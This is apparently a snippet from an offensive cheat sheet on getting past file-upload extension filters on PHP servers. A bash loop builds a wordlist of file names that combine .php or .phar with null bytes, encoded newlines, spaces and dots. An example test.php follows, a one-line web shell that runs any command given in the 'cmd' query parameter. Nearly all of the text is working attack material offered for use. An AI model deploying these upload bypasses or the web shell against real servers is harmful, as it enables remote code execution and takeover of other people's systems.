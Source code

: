 Escape both whitelist and blacklist checks for php servers
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phar'; do
        echo "test$char$ext.jpg" >> wordlist.txt
        echo "test$ext$char.jpg" >> wordlist.txt
        echo "test.jpg$char$ext" >> wordlist.txt
        echo "test.jpg$ext$char" >> wordlist.txt
    done
done
```

Example test.php

```php
<?php echo(shell_exec($_GET['cmd'])); ?>
```
